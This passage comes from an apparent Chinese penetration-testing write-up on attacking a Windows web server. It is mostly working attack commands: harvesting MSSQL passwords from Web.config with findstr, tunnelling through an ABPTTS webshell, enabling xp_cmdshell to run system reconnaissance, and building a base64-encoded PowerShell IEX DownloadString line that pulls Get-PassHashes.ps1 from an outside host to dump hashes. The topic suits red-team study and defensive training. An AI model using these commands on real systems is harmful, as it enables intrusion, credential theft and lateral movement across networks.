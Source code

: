 ![image.png](https://shs3.b.qianxin.com/attack_forum/2024/01/attach-a8aaec82037de8f1e75cfdb3525f87a25fff7ecd.png)  
确认下 mssql 数据库连接的账号密码字段名 \[ 如下, “User=”,“Password=” \],因为后续我们需要根据这个字段名来批量撸 sa 的密码

```php
type C:\WebCode\sycms_2.1\Web.config
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/01/attach-6f8d63292a9084123606d33dc00c24b07dd55b46.png)  
根据找到的特征批量抓密码

```php
# findstr /c:"User Id=" /c:"Password=" /si web.config >> tmps.logs
# del tmps.logs /F
```

### 通过HTTP加密代理建立tcp连接

```php
python2 abpttsclient.py -u "http://192.168.3.13:84/abptts.aspx" -c webshell\config.txt -f 127.0.0.1:143/192.168.3.13:1433
```

将本地143端口转发到1433  
使用服务端工具连接即可  
![image.png](https://shs3.b.qianxin.com/attack_forum/2024/01/attach-74ef5d2f1fc6f93106690677dc99e241840ae9bd.png)  
**尝试启动xp\_cmdshell**

```php
select @@version;
exec sp_configure 'show advanced options', 1;reconfigure;
exec sp_configure 'xp_cmdshell',1;reconfigure;
exec master..xp_cmdshell 'tasklist | findstr /c:"ekrn.exe" /c:"egui.exe" & whoami /user';
exec master..xp_cmdshell 'wmic OS get Caption,CSDVersion,OSArchitecture,Version';
exec master..xp_cmdshell 'wmic product get name,version';
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/01/attach-9d4315211ba78559896f30d2377cb8012d20109d.png)  
`query user`查看一下最近登录的用户  
![image.png](https://shs3.b.qianxin.com/attack_forum/2024/01/attach-115b453a3612583d590a79ad5ddc6c8fbcbe1a0a.png)

### 尝试远程加载powershell脚本抓取内网hash

```php
PS C:\> $text = "IEX (New-Object Net.WebClient).DownloadString('http://192.168.3.1/Get-PassHashes.ps1');Get-PassHashes;"
PS C:\> $Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text)
PS C:\> $EncodedText =[Convert]::ToBase64String($Bytes)
PS C:\> $EncodedText > bs64.txt
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/01/attach-4705f467e8444f67322cd7d46f96d2cce6c58381.png)  
将bs64.txt的内容复制出来放到mssql执行powershell
